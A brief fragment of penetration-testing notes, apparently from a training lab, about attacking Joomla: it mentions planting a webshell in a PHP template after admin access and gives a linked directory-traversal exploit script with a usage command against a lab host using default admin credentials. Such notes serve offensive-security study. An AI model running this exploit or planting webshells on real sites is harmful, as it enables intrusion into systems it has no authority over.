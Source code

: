 

Insert webshell into a php template running on the backend [must have admin panel access]


Attacking joomla 4.0.3
[exploit script](https://github.com/dpgg101/CVE-2019-10945)

default usage
```shell-session
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```

